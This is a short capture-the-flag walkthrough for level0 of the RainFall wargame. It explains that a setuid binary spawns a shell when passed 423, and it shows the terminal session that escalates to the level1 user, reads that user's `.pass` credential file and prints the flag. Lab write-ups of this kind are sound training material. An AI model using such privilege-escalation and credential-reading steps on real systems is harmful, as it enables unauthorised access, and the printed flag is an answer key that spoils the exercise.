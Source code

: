 ### Exploit

Oh sugar, here we go again. For this level and every level to come, we'll have to exploit a binary with file format elf32-i386.
Let's have a look at `level0`, shall we?

```
    level0@RainFall:~$ ls -l
    total 732
    -rwsr-x---+ 1 level1 users 747441 Mar  6  2016 level0
    level0@RainFall:~$ ./level0
    Segmentation fault (core dumped)
```

No need to be a C expert to understand what's going on here... Very simply, the programme excepts a parameter, but doesn't
check whether it exists or not. If it does, the `main` function calls <atoi> on the argument. If the argument equals 0x1a7 or
423, it prevents the programme from jumping straight to the end of the `main` function. It'll instead call <execv> and spawn
a shell!

```
    level0@RainFall:~$ id
    uid=2020(level0) gid=2020(level0) groups=2020(level0),100(users)
    level0@RainFall:~$ ./level0 423
    $ id
    uid=2030(level1) gid=2020(level0) groups=2030(level1),100(users),2020(level0)
    $ cat /home/user/level1/.pass
    1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```

Now the real challenge begins!

